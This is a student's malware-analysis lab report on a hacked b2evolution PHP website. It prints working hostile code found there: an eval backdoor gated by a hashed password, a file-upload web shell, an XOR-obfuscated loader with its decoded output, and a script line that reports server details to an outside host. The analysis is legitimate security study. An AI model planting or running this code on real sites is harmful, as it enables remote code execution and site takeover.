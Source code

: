 ### Informational Security - Laboratory Work #3

Objectives
===============
- Examine the directory structure of a hacked web-site
- Find the pharma-store
- Find the malware
- Overcome the obfuscation techniques to see what the malware does
- Understand how the attack happened and what the attacker's objectives were


Malware Analysis 
================

After first dive into provided archive it was clear it is a PHP based application - a website.
After some more navigation I found out it represents a `b2evolution` CMS. It is present in *_functions_install.php*:
```
<?php
/**
 * This file implements support functions for the installer
 *
 * b2evolution - {@link http://b2evolution.net/}
 ...
```

Next step into finding the malware is to see what is different from the stock *b2evolution* CMS.
First we need the version. Running `grep version` command inside the site tree or a Sublime Text search will give us results:
```
conf/_application.php:
...
 $app_version = '4.0.5';
...
```

Now that we have both stock and hacked versions we can run a `diff` to see differences between folder containings:
```
Only in one-hacked: 400.shtml
Only in one-hacked: 401.shtml
Only in one-hacked: 403.shtml
Only in one-hacked: 404.shtml
Only in one-hacked: 500.php
Only in one-hacked: 500.shtml
Only in one-hacked: BingSiteAuth.xml
Only in one-hacked: a_noskin.php
Only in one-hacked: a_stub.php
Only in one-hacked: admin.php
Only in one-hacked: apple-touch-icon.png
Only in one-hacked: blog1.php
Only in one-hacked: blog2.php
Only in one-hacked: blog3.php
Only in one-hacked: blog4.php
Only in one-hacked: blog5.php
Only in one-hacked: blog6.php
Only in one-hacked: blog7.php
Only in b2evolution: blogs
...
```

Afer looking on the whole list it is not clear what is not ok. As I never run a php based CMS I started looking trough all files to find something that I could recognize.
First odd pattern was presence of `google.php` in more than 1 folder. It contains some strange php code and a lot of information about this specific website like the root folder, working folder, ip address etc. *Smells fishy.*

After a bit of interneting I found that in php `eval` is evil. I searched for some and found:
```
<?php
error_reporting(0);
eval("if(isset(\$_REQUEST['ch']) && (md5(\$_REQUEST['ch']) == '234a68e7dd9594b5fe0ce9a929b104ee') && isset(\$_REQUEST['php_code'])) { eval(stripslashes(\$_REQUEST['php_code'])); exit(); }");
?>
```

Serching the conent of `ch` variable I found out it is a known backdoor called *baskdoor*.

This variable is present in following files:
```
conf/_upgrade.php
cron/mms.php
inc/comments/model/_commentlist.class.php
inc/comments/views/_browse_comments.view.php
inc/files/views/_filetype_list.view.php
inc/plugins/views/_plugin_settings.form.php
inc/sessions/views/_goal_hitsummary.view.php
skins/_404_blog_not_found.main.php
skins/_atom/comments.main.php
skins/_rss2/index.main.php
skins/basic/_item_content.inc.php
```

Firs I tried to find a corelation between this code and google.php code. Unsuccesful.

Getting back to google.php and analyzing it carefully, there is a line that produce a javascript when accesed via webbrowser:
```
print "document.write('<script src=\"http://rusztiko.com/sh2.php?serverStr=$serverStr&req_type=add_site&document_root=$document_root&ip=$ip&domain='+window.location.hostname+'&uplUrl=$pp\"><\/script>');";
```

This writes to `ext.php` the generated code. The code looks like:
```
<?php error_reporting(0);
@ini_set("display_errors", 0);
$var = $_SERVER['PHP_SELF'] . "?";
$form = '<form enctype="multipart/form-data" action="' . $var . '" method="POST"><input name="uploadFile" type="file"/><br/><input type="submit" value="Upload" /></form>';
if (!empty($_FILES['uploadFile'])) {
    $self = dirname(__FILE__);
    move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $self . DIRECTORY_SEPARATOR . $_FILES["uploadFile"]["name"]);
    $time = filemtime($self);
    print "OK";
} else {
    print $form;
} ?>
```

This is a form. (`form`, `POST` method). It uploads files and it is surely for uploading malwares.

Another suspicious thign was some text that was actually code. 
This technique is called obfuscation:
```
<?php $ufcsafbt="tgmpgiamscuq"^"\x04\x15\x08\x178\x1b\x04\x1d\x1f\x02\x16\x14"; $bidjyvcisn="bhxfwpkefbrlct"^"M\x0e\x0b\x11\x16\x06\x07\x03I\x07";$ufcsafbt("$bidjyvcisn", "\x0b\x19\x11\x1a\x1b4\x14\x07\x19\x03\x19\x00\x08\x0f\x04J\x5bJY\x03\x15\x1b\x0eYJ\x08\x0dG\x10\x1a\x06\x08\x00\x5f\x3b\x3eL265\x29\x3a\x2f\x2a\x3b7F\x1a\x07E9\x5bB\x40OJN\x1e\x1cPJ\x2f\x2dQ\x2f\x2a2\x26\x3f\x24\x3f\x3c4Q\x05\x0b\x40\x3aKVTXNM\x5eB\x40\x11Y\x17\x11\x12\x0cX\x09H\x0c\x0dO\x14\x0cP\x1f\x40\x07VL\x5c\x5eTQF\x07\x16T\x15I\x5fFDKZ\x18\x04\x19\x07\x02Y5\x2dL\x2e\x2a\x23\x3c\x2f\x2f\x3f\x3d\x2fK\x1e\x05\x019\x0c\x08\x17\x0eK\x28QBL\x0fT\x08\x19\x0a\x1aN\x00\x19\x16\x11\x09\x10\x04\x0a\x1f\x09\x12\x0aF29F\x2b\x2a\x284\x27\x2f\x3c78N\x00\x1a\x034\x1b\x04\x13\x04N\x2bMY\x5dO\x14\x1a\x07\x10G\x5b\x5dI\x0dPD\x5c"^"nkcuikfbilktaacbkcbfczbqhakoyiumtwgbhmdpxojyolayobdrbfijfsxebsqupxwwjalhovfcggbvienjkvtporupjkkyhhvqhgywcdyjkaesercpnvfbmzqwjbvqiqhqxfmzjlitlnmqfogskluxklttmokvfsmdxychklawynnebtxmerjocciprskxkwaivdpfoqbndorfiprmg", "fswavlf"); ?>
```
Like what even is this? Code?

There are online tools like `unPHP` that can help decoding this "code".
The output is this:
```
<?php error_reporting(0);
eval("if(isset(\$_REQUEST['ch']) && (md5(\$_REQUEST['ch']) == '544a6edbf3b1de9ed7f7d2565545bd7e') && isset(\$_REQUEST['php_code'])) { eval(stripslashes(\$_REQUEST['php_code'])); exit(); }");
```
Aha! `eval` again. This is apparently same backdoor I found earlier. 
This is helping the bad guy to upload its files on the server.

Conlcusion
_________

Because of not knowing PHP frameworks at all it was quite challenging. Initially I was stuck about what to do and just went trough files and did not found much. Searching on internets helped. Also asking guys that knows some more stuff about it helped even more.
It is quite clear that a beginner would have troubles with security using popular CMS-es. That given, one should always learn and verify for security breaches, especially when dealing with some sensitive data.
